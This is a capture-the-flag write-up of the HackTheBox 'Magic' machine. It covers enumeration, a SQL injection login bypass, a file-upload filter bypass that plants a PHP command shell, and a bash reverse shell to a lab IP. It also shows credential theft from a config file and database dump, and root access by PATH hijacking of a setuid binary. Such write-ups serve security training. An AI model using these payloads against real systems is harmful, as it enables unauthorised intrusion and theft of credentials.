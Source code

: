 # **HACKTHEBOX – MAGIC WRITEUP**

![](RackMultipart20200925-4-tfagf1_html_667d7be7cc0ffee5.png)

# **IP: 10.10.10.185**

# **Enumeration**

First, we will run nmap.

![](/Magic/nmap.png)


The scan shows 2 ports are open. Port 22 for SSH and port 80 for Apache.

I will start an all ports nmap scan ( -p ) just in case there are more open ports.

![](RackMultipart20200925-4-tfagf1_html_bc743e96c7770bcb.png)

The Apache web server has a wider attack surface, so that is what I am going to enumerate more first.

![](RackMultipart20200925-4-tfagf1_html_34fa9c21cfeeab9b.png)

Port 80 gives a web page with a bunch of images.

Clicking an image only displays the clicked image.

![](RackMultipart20200925-4-tfagf1_html_b87eb59bf871fbb3.png)

# **FOOTHOLD**

There is a login button at the bottom left corner that takes me to a php login page.

![](RackMultipart20200925-4-tfagf1_html_890bed27c2b7ae8.png)

Knowing that this web server has PHP files, I am going to start a gobuster for hidden directories and php files.

![](RackMultipart20200925-4-tfagf1_html_dd3bf8e8ad625b7d.png)

There is a file called &quot;upload.php&quot;. Upload functions tend to be exploitable, so I am going to take a closer look at that file. Opening that files takes me back to the login page.

Whenever I meet a login page, I will always try some weak credentials. Sadly, they didn&#39;t work on this login page. So I try some SQL injection, but the page doesn&#39;t allow spaces for whatever reason. I use Burpsuite to intercept my login request and insert the SQL injection payload that way.

Username: &#39;OR 1=1 -- -

Password: doesn&#39;t matter

Press ctrl + u to URL encode and forward it to the server.

![](RackMultipart20200925-4-tfagf1_html_d79bf28b901f838b.png)

We got logged in!

![](RackMultipart20200925-4-tfagf1_html_e069d3f801c47024.png)

Exploiting an upload function is easier using Burpsuite, that is where I am going to insert my payloads.

Uploading a php file returns an error.

![](RackMultipart20200925-4-tfagf1_html_8118e14a52ebef3d.png)

So there is some file type validations going on, we need to bypass it.

There are a few ways to validate a file. It can be through file extension, MIME type or magic bytes. So I am going to modify the request through the repeater tab (ctrl + r) hopefully bypass the file validations.

I upload a jpeg file and put some php code in it with Burpsuite.

![](RackMultipart20200925-4-tfagf1_html_39ba9cee7fee6cfa.png)

This is a simple php code execution script and will run any command through the &quot;cmd&quot; parameter.

The original file name is &quot;lol.jpeg&quot; and I change it to &quot;lol.jpeg.php&quot;.

After that, I send the request to the server but I still get the error.

So I change the filename to &quot;lol.php.jpeg&quot; because there is a chance that apache .htaccess is configured in a weird way and run &quot;php.jpeg&quot; files as php.

![](RackMultipart20200925-4-tfagf1_html_c8fb2ddf01bfcee7.png)

I successfully uploaded the file.

Now we need to access the file for the server to run the php code.

If you go back to the main page and click view image on an image there, the directory where the image is stored is on &quot;/image/uploads/&quot;. So I try to hit &quot;/image/uploads/lol.php.jpeg&quot;.

![](RackMultipart20200925-4-tfagf1_html_9b486c5227cc385d.png)

I successfully access the file. Now I will try injecting a command.

![](RackMultipart20200925-4-tfagf1_html_d635245a792207b2.png)

I run the command &quot;whoami&quot; and it returns www-data. We know for sure we have command execution.

Now we will try a reverse shell payload.

Payload: bash -c &#39;bash -i \&gt;&amp; /dev/tcp/10.10.14.2/9001 0\&gt;&amp;1&#39;

I set up a listener on port 9001, click send and we got a shell as www-data.

![](RackMultipart20200925-4-tfagf1_html_ba5649e21650bd30.png)

# **USER**

Looking at the db.php5 file, we got some credentials.

![](RackMultipart20200925-4-tfagf1_html_fd443e7a915f9fe1.png)

Using those creds to switch user to &quot;theseus&quot; doesn&#39;t work, But we know this is a database credential, we access the database and get more stuff.

But mysql is not installed so I use &quot;mysqldump&quot; instead.

![](RackMultipart20200925-4-tfagf1_html_ab75d2c12b4c6504.png)

Dumping the database &quot;Magic&quot; gives more credentials.

![](RackMultipart20200925-4-tfagf1_html_cda2d65c1ea45a71.png)

Using the creds from the sqldump, I can switch to user &quot;theseus&quot;.

# **ROOT**

After getting the theseus user, I like to do some find commands to see what files belong to the user.

Running this returns a lot of stuff that I am too lazy to look at.

![](RackMultipart20200925-4-tfagf1_html_922d15cc0c484ad6.png)

So I decided to use groups instead.

If we use the groups command, theseus belongs to a group called &quot;users&quot;.

![](RackMultipart20200925-4-tfagf1_html_c11f9107a30e1db4.png)

Running the find command with groups returns only 1 binary and it is a setuid binary.

I try running the binary and it returns a bunch of system information.

I use strace with the &quot;-f&quot; flag to follow forks on the binary to get more information and I use grep to see what commands this binary is executing.

![](RackMultipart20200925-4-tfagf1_html_f214514f62b0b830.png)

The binary doesn&#39;t use absolute path which means we can abuse this.

I write a simple bash reverse shell script called &quot;free&quot;.

![](RackMultipart20200925-4-tfagf1_html_8a7dac40357e8b26.png)

Then I modify the $PATH and add the directory where my &quot;free&quot; script is located and put it before the others.

![](RackMultipart20200925-4-tfagf1_html_5154923a25470609.png)

Then I setup a listener on port 9002 and run the sysinfo binary and we got root!

![](RackMultipart20200925-4-tfagf1_html_d57eef0a8abf27a1.png)
